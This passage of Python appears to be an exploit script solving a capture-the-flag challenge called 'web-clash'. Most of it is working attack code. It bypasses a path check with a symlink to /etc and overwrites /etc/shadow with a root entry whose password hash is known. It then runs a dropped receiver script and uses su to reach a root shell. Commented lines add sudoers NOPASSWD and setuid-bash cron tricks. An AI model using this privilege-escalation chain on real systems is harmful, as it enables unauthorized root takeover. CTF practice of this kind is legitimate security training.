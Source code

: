 ```py
            "url": "http://localhost:10228/shadow",
            "format": "text",
            "path": "/tmp/etc/passwd"
        }
    }
}
"""
# no sudo on remote, so no /etc/sudoers.d/nobody trick
# crontab not running on remote, /etc/cron.d/nobody trick won't work

# malicious_sudo = "nobody ALL=(ALL) NOPASSWD: ALL"
# malicious_cron = "\n".join(
#     [f"{d} * * * * root chmod +s /bin/bash && cp /flag_* /tmp/flag" for d in range(60)]
# )

# generated with: openssl passwd 1
malicious_shadow = "root:$1$5VgUvSAY$4i/Q.3vwETLGYFBmH8zWK/:0:0:root:/root:/bin/bash"

with open("web-clash/poc2_receiver.py", "rb") as f:
    receiver_code = f.read()

conn.sendlineafter(
    b"$ ",
    f"echo -n '{base64.b64encode(malicious_json.encode()).decode()}'|base64 -d > /tmp/config.json".encode(),
)
# conn.sendlineafter(
#     b"$ ",
#     f"echo -n '{base64.b64encode(malicious_cron.encode()).decode()}'|base64 -d > /tmp/cron".encode(),
# )
conn.sendlineafter(
    b"$ ",
    f"echo -n '{base64.b64encode(malicious_shadow.encode()).decode()}'|base64 -d > /tmp/shadow".encode(),
)
# bypass isSafePath with symlink. you should have used realpath
conn.sendlineafter(
    b"$ ",
    "ln -s /etc /tmp/etc".encode(),
)
conn.sendlineafter(
    b"$ ",
    f"echo -n '{base64.b64encode(receiver_code).decode()}'|base64 -d > /tmp/receiver.py".encode(),
)
conn.sendlineafter(
    b"$ ",
    "python3 /tmp/receiver.py &".encode(),
)
conn.sendlineafter(b"$ ", b"python3 -m http.server 10228 &")

time.sleep(3)
conn.sendlineafter(b"$ ", b"su\n1\n")

conn.interactive()
# flag{AlL-YOuR-CLAsH-aRE-BeloNG-To-uS}
```
